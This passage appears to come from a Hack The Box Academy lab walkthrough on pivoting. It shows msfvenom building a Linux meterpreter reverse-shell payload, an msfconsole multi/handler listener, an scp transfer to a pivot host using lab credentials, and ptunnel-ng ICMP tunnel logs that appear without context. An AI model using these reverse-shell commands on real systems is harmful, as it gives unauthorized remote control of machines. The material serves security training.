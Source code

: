 ```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=PWNIP LPORT=PWNPO -f elf -o reverseShell
```

```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=8080 -f elf -o reverseShell

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: reverseShell
```

Subsequently, students need to start an `msfconsole` `multi handler`, specifying the payload and port to match the ones used in the `msfvenom` payload:

Code: shell

```shell
msfconsole -q
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT PWNPO
run
```

```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ msfconsole -q

msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp 
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8080
```

Thereafter, students need to transfer the `msfvenom` payload to the Ubuntu pivot host, utilizing the credentials `ubuntu:HTB_@cademy_stdnt!`:

Code: shell

```shell
scp reverseShell ubuntu@STMIP:~/
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.